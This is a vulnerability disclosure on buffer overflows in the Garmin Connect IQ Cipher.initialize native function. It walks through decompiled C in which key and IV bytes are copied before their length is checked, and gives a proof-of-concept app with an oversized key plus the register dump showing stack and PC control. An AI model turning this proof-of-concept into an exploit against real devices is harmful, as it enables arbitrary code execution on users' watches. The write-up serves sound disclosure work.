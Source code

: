 # Buffer Overflows in `Toybox.Cryptography.Cipher.initialize`
The `Cipher` class supports various parameters when being instantiated, including:

- `key`, a byte array representing the key
- `iv`, a byte array representing the initialization vector

(See: [Garmin - Class: Toybox.Cryptography.Cipher](https://developer.garmin.com/connect-iq/api-docs/Toybox/Cryptography/Cipher.html#initialize-instance_function))

The native function implementing the `initialize` method does not properly check the size of the `key` and `iv` parameters, before copying their value to static-sized buffers:

- The `key` parameter is copied to a static buffer on the stack.
- The `iv` parameter is copied to a static buffer inside an object on the heap.

As a result, it is possible to override the stack, including the program counter (PC) register. This can be abused to hijack the execution on the device and execute arbitrary code.

The root cause of the issue is due to calling `memcpy` and checking the size only **after** the copy was performed:

```c
e_tvm_error native:Toybox.Cryptography.Cipher.initialize(s_tvm_ctx *ctx,uint nb_args)
{
// [...]
      eVar1 = tvm_object_get_bytearray_data(ctx,(s_tvm_object *)key,&bytearray_data);
      psVar2 = (s_tvm_ctx *)(uint)eVar1;
      if (psVar2 != (s_tvm_ctx *)0x0) goto LAB_0478fd0c;
      key_data_length = *(ushort *)&bytearray_data->length;
      // Anvil: Copying the whole key byte array to the static buffer on the stack
      memcpy(static_key_buffer,bytearray_data + 1,(uint)key_data_length);
// [...]
                    /* CIPHER_AES128 */
      if (*(int *)(local_78 + 0x18) == 0) {
        expected_key_size = 0x10;
      }
      else {
                    /* CIPHER_AES256 */
        if (*(int *)(local_78 + 0x18) == 1) {
                    /* error */
          expected_key_size = 0x20;
        }
        else {
          expected_key_size = FUN_0478f594();
        }
      }
      // Anvil: After copying, checking that the key size is either 16 or 32 bytes
      if (((key_data_length != expected_key_size) && (psVar2 = (s_tvm_ctx *)thunk_FUN_00179a5c(ctx,(uint *)object_InvalidOptionsException,PTR_s_Invalid_length_of_:key_for_reque_047900d0), psVar2 != (s_tvm_ctx *)0x0)) ||
         (psVar2 = (s_tvm_ctx *)FUN_0479a198(ctx,&options,symbol_iv,iv), psVar2 != (s_tvm_ctx *)0x0)) goto LAB_0478fd1a;
// [...]
      iv_length = bytearray_data->length;
      *(short *)(local_78 + 0x16) = (short)iv_length;
      // Anvil: Copying the whole IV byte array to static buffer inside an object on the heap
      memcpy(local_78 + 6,bytearray_data + 1,iv_length & 0xffff);
// [...]
      // Anvil: After copying, checking that the IV size is 16 bytes
      if (*(short *)(local_78 + 0x16) != 0x10) {
        if (psVar2 != (s_tvm_ctx *)0x0) goto LAB_0478fc06;
        psVar2 = (s_tvm_ctx *)thunk_FUN_00179a5c(ctx,(uint *)object_InvalidOptionsException,PTR_s_Invalid_length_of_:iv_for_reques_047900dc);
      }
// [...]
```

The crash can be triggered with the following proof-of-concept:

```java
var keyConvertOptions = {
    :fromRepresentation => StringUtil.REPRESENTATION_STRING_HEX,
    :toRepresentation => StringUtil.REPRESENTATION_BYTE_ARRAY
};
var keyBytes = StringUtil.convertEncodedString(
    "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbccccccccddddddddeeeeeeeeffffffff11111111bbbbbbbbccccccccdddddddd",
    keyConvertOptions
);
var ivBytes = StringUtil.convertEncodedString(
    "aaaaaaaaaaaaaaaabbbbbbbbbbbbbbbb",
    keyConvertOptions
);

var myCipher = new Crypto.Cipher({
    :algorithm => Crypto.CIPHER_AES128,
    :mode => Crypto.MODE_ECB,
    :key => keyBytes,
    :iv => ivBytes
});
```

Register values when the crash occurs (note that they are off-by-one, meaning that `r16` is actually `r15`):

```
r0: 0x20004688
r1: 0x00000016
r2: 0x001bffff
r3: 0x00000001
r4: 0x00000015
r5: 0xdddddddd
r6: 0xeeeeeeee
r7: 0xffffffff
r8: 0xaaaaaaaa
r9: 0xbbbbbbbb
r10: 0xcccccccc
r11: 0x40020091
r12: 0x00000016
r13: 0x00000000
r14: 0x20004158
r15: 0x00000000
r16: 0xdddddddc
r17: 0x210f0000
r18: 0x40000000
r19: 0x00000001
r20: 0xe000ed38
r21: 0xe000ed34
r22: 0x00000000
```

The proof-of-concept application can be found here: <https://github.com/anvilsecure/garmin-ciq-app-research/blob/main/poc/GRMN-10.prg>